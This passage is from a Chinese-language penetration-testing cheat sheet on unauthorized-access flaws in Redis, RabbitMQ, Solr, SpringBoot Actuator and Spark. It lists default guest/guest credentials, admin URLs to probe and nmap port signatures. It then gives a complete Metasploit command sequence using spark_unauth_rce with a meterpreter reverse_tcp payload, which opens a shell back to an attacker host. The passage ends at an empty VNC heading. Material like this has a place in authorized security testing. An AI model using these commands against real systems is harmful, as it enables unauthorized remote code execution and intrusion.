     redis-cli -h 目标主机IP
    
## RabbitMQ

### 检测

默认账号密码都是guest

    http://10.10.4.89:15672
    http://10.10.4.89:25672/
    http://10.10.4.89:15692/
    
## Solr 

### 检测

    http://xx.xx.com/solr/admin
    https://xx.xx.com/solr/admin
    
## SpringBoot Actuator 

### 检测

    http://10.2.20.48/autoconfig
    
## Spark

### 检测

nmap扫描出如下端口开放，则很有可能存在漏洞

    6066/tcp  open  http           Jetty 9.3.z-SNAPSHOT
    8081/tcp  open  http           Jetty 9.3.z-SNAPSHOT
    8082/tcp  open  http           Jetty 9.3.z-SNAPSHOT
    
使用msf工具getshell

    msf5>use exploit/linux/http/spark_unauth_rce
    msf5>set payload java/meterpreter/reverse_tcp
    msf5>set rhost 192.168.100.2
    msf5>set rport 6066
    msf5>set lhost 192.168.100.1
    msf5>set lport 4444
    msf5>set srvhost 192.168.100.1
    msf5>set srvport 8080
    msf5>exploit
    
## VNC 

### 检测
